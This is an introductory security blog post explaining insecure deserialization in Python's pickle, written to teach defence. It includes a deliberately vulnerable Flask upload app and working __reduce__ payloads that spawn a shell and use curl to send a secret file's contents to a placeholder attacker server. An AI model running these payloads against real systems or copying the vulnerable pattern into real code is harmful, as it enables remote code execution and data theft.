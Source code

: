 ```yaml
---
title: "Insecure Deserialization: Introduction"
date: 2020-12-22T14:38:40-07:00
draft: false
comments: false
images: ["/images/InsecureDeserializationIntro.jpg"]
tags:
  - instructional
  - insecure-deserialization
---
```


Insecure deserialization is a prolific vulnerability that provides a pretty straightforward gateway into unintended RCE - if you're not careful. As of late, I've seen more and more CTFs employ this bug, and more real-word bug bounties deal with this kind of exploit. I figure I could provide a quick introduction into them, and hopefully ensure a few people secure their applications from this. 

## Context

{{< image src="/images/InsecureDeserializationIntro.jpg" alt="intro" position="center" style="border-radius: 8px;" >}}

### What Even is Serialization?
My CPSC210 class I learned the fundamentals of object-oriented programming and the concept of complex abstractions above simple data structures: From simple arrays to instances of objects or classes, with fields and properties holding specific type values. Classes and complex data structures are great and all, but how do you manage them in transit across the web? Can they even be efficiently and losslessly transfered between machines? Or maybe there's some sort of practise we can use to streamline this?

The process of serialization seeks to simplify the concept - it's the act of taking any object and converting it into some workable format of a stream of bytes for ease of transfer and transition. It can be thought of as "flattening" said object and transferring that flattened version to wherever it needs to go. This "flattened version" could be anything from JSON data, XML, maybe just a bunch of bytes, or a specific string - it all depends on the language.

{{< image src="/images/InsecureDeserializationIntro_Serial.jpg" alt="Serial" position="center" style="border-radius: 8px;" >}}

Of course, the opposite process is called deserialization: taking that flattened byte stream and recreating a copy of the original object from it. It will reconstruct any properties, fields from the stream and hopefully present a working replica of the original.

{{< image src="/images/InsecureDeserializationIntro_Deserial.jpg" alt="secret" position="center" style="border-radius: 8px;" >}}

The serialization process is a key component to ensure that all the parts of a system are working together and seamlessly, operating in all sorts of different formats but still managing to easily convert data from some base byte stream into a workable object for their use. But it's not without its own flaws. In many cases, it's not totally lossless. 

### Backup Directives

When serializing objects, one thing to note is that some properties or connections will not completely transfer over during the process. In that case, there should be some sort of backup plan or emergency what-to-do in those situations. This blueprint will vary from language to language, but often you'll see it as some directive that tells the deserializer what to do when it encounters a foreign property. As an example, Python's [pickle](https://docs.python.org/3/library/pickle.html) module - the native serializing library in Python - uses a magic function called `__reduce__()` to stipulate what should be done in case not everything was perfectly translated from their bytestream form. 

`__reduce__()` in particular tells the pickle module how to handle things directly within the definition of the class. Specifying this interface will allow us to manually reconstruct potentially complicated properties, such as database connections or open file handles. Of course, there exist unintended ways of using the ``__reduce__()`` directive. 

## Insecure Deserialization

Serialization is not inherently bad, and it's a very important tool in many infrastructures today. What makes it vulnerable is, like with many different practises, improper handling of its inputs. Insecure deserialization typically arises when applications feed user input into their deserializers, which wasn't properly cleaned/sanitized. 

Refer back to Python's pickle module once more. It uses the `__reduce__()` directive for edge cases where properties are not properly reconstructed from their stream form. However, if the input that you're giving your pickler is from some external user, you lay yourself bare for RCE. 

`__reduce__()` can be used to stipulate potentially dangerous commands, such as opening a reverse shell to a server you control. This is, unfortunately, necessary functionality for the pickle module to have in order to operate smoothly. Consider the following example:

```py
import pickle
import os

class DontDoThis(object):
	def __reduce__(self):
		return (os.system, ("/bin/sh", ))


EvilExample = DontDoThis()

pickle.dump(EvilExample, open("save.p", "wb"))

my_data = pickle.load(open("save.p", "rb"))
```
Observe that this script will deserialize an instance of `DontDoThis`, and will come across the ``__reduce()__`` method. It will then do whatever ``__reduce()__`` tells it to do, which is to open an `sh` shell.

Let's see another example:

_(Some parts omitted)_
```py
import pickle
import os
from flask import Flask, request, redirect, url_for
from werkzeug.utils import secure_filename

app = Flask(__name__)
UPLOAD_FOLDER = '/directory/to/webserver'

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <!doctype HTML>
        <title>Upload new File</title>
        <h1>Upload new File</h1>
        <form method=post enctype=multipart/form-data>
          <input type=file name=file>
          <input type=submit value=Upload>
        </form>
        '''
    if request.method == 'POST':

        file = request.files['file']

        filename = secure_filename(file.filename)
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))

        return "thaaanks!"

...

@app.route('/uploads/<filename>')
def note():
    my_data = pickle.load(filename, "rb")

    return "your file was succesfully deserialized~"
```

I made this toy application to explain this process. The expected application flow is that our program is going to take a file defined by the user and store it in the webserver. For ease of use and convenience, the application _assumes_ that the files provided by the user are able to be deserialized. You can request for an object back, and when you do so, it gets deserialized. 

{{< image src="/images/InsecureDeserializationIntro_fileUpload.png" alt="secret" position="center" style="border-radius: 8px;" >}}

So, the expected input is any sort of user-provided file. What happens when we provide it a file generated from this script?

```py
class Hello(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"hello\"", ))

EvilExample = Hello()


pickle.dump(EvilExample, open("hello.p", "wb"))
```

If you're this far into the blog post, you probably already have a good idea of what could happen to our program. The file we create, `hello.p`, will get serialized, but as soon as we request for it... 

{{< image src="/images/InsecureDeserializationIntro_hello.png" alt="hello" position="center" style="border-radius: 8px;" >}}

Our class will be deserialized, and make a POST request to a webhook with "hello" in the request body. This webhook we have access to, so we can see the POST request after deserialization.

We can extrapolate this example further and open a reverse shell, or have the program unintentially pipe sensitive files to a server we control. 

```py
class Secret(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"$(cat secret.txt)\"", ))

EvilExample = Secret()


pickle.dump(EvilExample, open("secret.p", "wb"))
```

Let's say that there's a file called `secret.txt` in the directory of the application that looks like so:

```text
this is a secret~
```

When we submit the generated file from this script (`secret.p`) and request for it, we can see in our webhook that the contents of `secret.txt` have succesfully been outpuuted to us in the body of a POST request: 

{{< image src="/images/InsecureDeserializationIntro_secret.png" alt="secret" position="center" style="border-radius: 8px;" >}}

The possibilities are endless. Of course, this is just a toy application I'm running locally to showcase this, but regardless the dangers are still plain to see. RCE is remarkably easy to achieve and scarily straightforward to do if your deserializer is not properly secured. In fact, that's part of the exploit used in hacking [DragonCTF's Harmony Chat](/posts/2020/11/dragonctf-2020-harmony-chat/), although their serializer was a Javascript variant, not a Python one. 

So what's the takeaway here? If you can help it, never deserialize user-provided input. Of course, there do exist situations where you absolutely cannot avoid it, and I would recommend properly sanitized input or some signature that can act as a canary should anything in the user input change. 

Insecure deserialization is a pretty dangerous vulnerability, and also a pretty easy one to exploit if you know where to look for it. As mentioned earlier, it's seeing prolific exposure in the CTF world, and justifiably so - there are many [real world vulnerabilities](https://www.linkedin.com/pulse/equifax-data-breach-apache-struts-vulnerability-kenneth-g-/) today that are based on serialization functionality but don't have the security to match up for it. If you're using serialziaition libraries or modules, make sure to be careful! 

## Vie

